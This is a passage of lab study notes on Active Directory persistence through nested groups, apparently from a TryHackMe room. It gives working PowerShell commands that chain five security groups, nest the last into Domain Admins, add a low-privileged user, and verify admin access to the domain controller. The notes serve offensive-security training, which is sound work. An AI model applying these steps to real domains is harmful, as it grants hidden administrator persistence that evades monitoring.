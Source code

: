 ##### Nested Groups

A recursive group is a group that is a member of another group, like group nesting. The subgroups have the permissions of the group it's a member of with more granular permissions for each subgroup.

Group nesting helps organize the AD but it also reduce the visibility of effective access, we should enumerate the group than it's subgroups then it's subgroups and so on, until when?

It also creates a monitoring problem, a miscommunication between the AD team and the InfoSec team can cause an alarm to raise when a member is added to the domain admins group, but not when a user is added to it's subgroups.

We as attackers can add ourselves to a subgroup that isn't monitored.

##### Nesting Our Persistence

Add a group inside a group:

`New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security`

`New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security`

`Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"`

And continue doing that:

```markup
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

`Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"` - Add the last group to the domain admins group.
`Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"` - Add our low privileged user to the first group we created.
`dir \\thmdc.za.tryhackme.loc\c$\` - Check you have privileged access.
##### Annoying More Than Just The Blue Team

In real organization we will not create our own groups, but use existing subgroups, this attack will completely break the AD structure.
